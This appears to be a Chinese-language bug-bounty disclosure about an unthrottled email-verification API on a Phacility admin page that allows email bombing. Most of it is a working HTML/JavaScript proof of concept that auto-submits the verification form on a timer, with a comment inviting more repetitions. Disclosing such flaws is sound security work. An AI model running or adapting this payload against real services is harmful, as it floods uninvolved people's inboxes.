


api漏洞系列-邮箱验证API接口无限制,可作为邮箱炸弹

## 前言

声明：文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。

## 漏洞描述
`https://admin.phacility.com/settings/user/toma/page/email/ `中的API接口是无限的，可以用作邮箱炸弹。

## 复现步骤

1.注册用户并等待验证电子邮件地址  <br>



2.使用如下:  <br>

```html

<form id="myform" action="https://admin.phacility.com/settings/user/toma/page/email/?verify=14295" method="POST" target="_blank">
  <input type="text" name="__csrf__" value="B@f3wyama2759fcd6f915746da">
  <input type="text" name="__form__" value="1">
  <input type="text" name="__dialog__" value="1">
  <input type="text" name="verify" value="14295">
  <input type="text" name="__submit__" value="true">
  <input type="text" name="__wflow__" value="true">
  <input type="text" name="__ajax__" value="true">
  <input type="text" name="__metablock__" value="3">
</form>
<script>
  function interval(func, wait,  times)
  { 
    var interv = function(w, t){ 
      return function(){
        if(typeof t === "undefined" ||  t-- > 0){ 
          setTimeout(interv, w); 
          try{ 
            func.call(null);
          }  catch(e) {
            t = 0; 
            throw e.toString(); 
          } 
        } 
      }; 
    }(wait, times); 
    setTimeout(interv, wait);
  };//submit every 2000ms,execute 5 times(you can change this number  to execute moretimes)
  interval(
    function(){ document.getElementById("myform").submit(); },
    2000,
    5
  );
</script>

```

其中`__csrf__`是你的token,由于这次邮箱没有经过验证，所以我注册的时候可以写任何邮箱，然后就可以轰炸任何人的邮箱. <br>




